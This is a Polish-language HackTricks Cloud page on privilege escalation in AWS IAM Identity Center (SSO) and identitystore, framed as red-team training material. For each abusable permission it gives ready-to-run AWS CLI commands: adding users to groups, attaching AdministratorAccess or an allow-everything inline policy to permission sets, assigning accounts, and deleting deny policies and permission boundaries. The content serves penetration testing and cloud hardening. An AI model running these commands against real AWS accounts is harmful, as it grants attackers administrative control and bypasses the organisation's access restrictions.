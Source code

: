 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Aby uzyskać więcej informacji na temat AWS Identity Center / AWS SSO, sprawdź:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Zauważ, że **domyślnie** tylko **użytkownicy** z uprawnieniami **z** **Konta Zarządzającego** będą mogli uzyskać dostęp i **kontrolować IAM Identity Center**.\
Użytkownicy z innych kont mogą to zrobić tylko, jeśli konto jest **Delegowanym Administratorem.**\
[Sprawdź dokumentację, aby uzyskać więcej informacji.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Zresetuj hasło~~

Łatwym sposobem na eskalację uprawnień w takich przypadkach byłoby posiadanie uprawnienia, które pozwala na resetowanie haseł użytkowników. Niestety, możliwe jest tylko wysłanie e-maila do użytkownika w celu zresetowania jego hasła, więc potrzebujesz dostępu do e-maila użytkownika.

### `identitystore:CreateGroupMembership`

Dzięki temu uprawnieniu możliwe jest dodanie użytkownika do grupy, aby mógł on dziedziczyć wszystkie uprawnienia, które ma grupa.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Napastnik z tym uprawnieniem mógłby przyznać dodatkowe uprawnienia do Zestawu Uprawnień, który jest przyznany użytkownikowi pod jego kontrolą

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Napastnik z tym uprawnieniem mógłby przyznać dodatkowe uprawnienia do Zestawu Uprawnień, który jest przyznany użytkownikowi pod jego kontrolą

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Napastnik z tymi uprawnieniami mógłby przyznać dodatkowe uprawnienia do Zestawu Uprawnień, który jest przyznany użytkownikowi pod jego kontrolą.

{% hint style="warning" %}
Aby nadużyć tych uprawnień w tym przypadku, musisz znać **nazwę zarządzanej przez klienta polityki, która znajduje się we WSZYSTKICH kontach**, które będą dotknięte.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Napastnik z tym uprawnieniem mógłby przypisać Zestaw Uprawnień użytkownikowi pod jego kontrolą do konta.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Zwraca krótkoterminowe poświadczenia STS dla podanej nazwy roli przypisanej do użytkownika.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Jednak potrzebujesz tokena dostępu, którego nie jestem pewien, jak uzyskać (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Atakujący z tym uprawnieniem może usunąć powiązanie między zarządzaną polityką AWS a określonym zestawem uprawnień. Możliwe jest przyznanie większych uprawnień poprzez **odłączenie zarządzanej polityki (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Napastnik z tym uprawnieniem może usunąć powiązanie między polityką zarządzaną przez klienta a określonym zestawem uprawnień. Możliwe jest przyznanie większych uprawnień poprzez **odłączenie polityki zarządzanej (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Napastnik z tym uprawnieniem może usunąć uprawnienia z polityki inline z zestawu uprawnień. Możliwe jest przyznanie **większych uprawnień poprzez odłączenie polityki inline (polityka odmowy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Napastnik z tym uprawnieniem może usunąć Granicę Uprawnień z zestawu uprawnień. Możliwe jest przyznanie **większych uprawnień poprzez usunięcie ograniczeń w Zestawie Uprawnień** nadanych przez Granicę Uprawnień.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
